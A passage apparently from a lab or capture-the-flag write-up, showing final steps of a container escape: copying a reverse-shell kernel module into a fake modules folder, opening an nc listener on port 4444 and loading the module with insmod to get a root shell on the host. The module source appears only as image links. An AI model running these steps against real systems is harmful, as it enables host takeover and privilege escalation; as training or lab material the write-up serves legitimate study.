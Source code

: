 ![image50](../resources/329e5bf82dbb4386a163b283c4b50c02.png)


![image51](../resources/9782752afd9a4dd1b42be9cdd07b0f40.png)

- Copy to the fake lib folder:

```bash
cp reverse-shell.ko lib/modules/$(uname -r)/

```
- Set up nc listener:

```bash
rlwrap -cAr nc -lvnp 4444

```
- In the current folder (where the Makefile is) run:

```bash
insmod reverse-shell.ko

```
- Shell as root on the host system:

![image52](../resources/574dff7df9324ab7a5202a90b5737fd1.png)
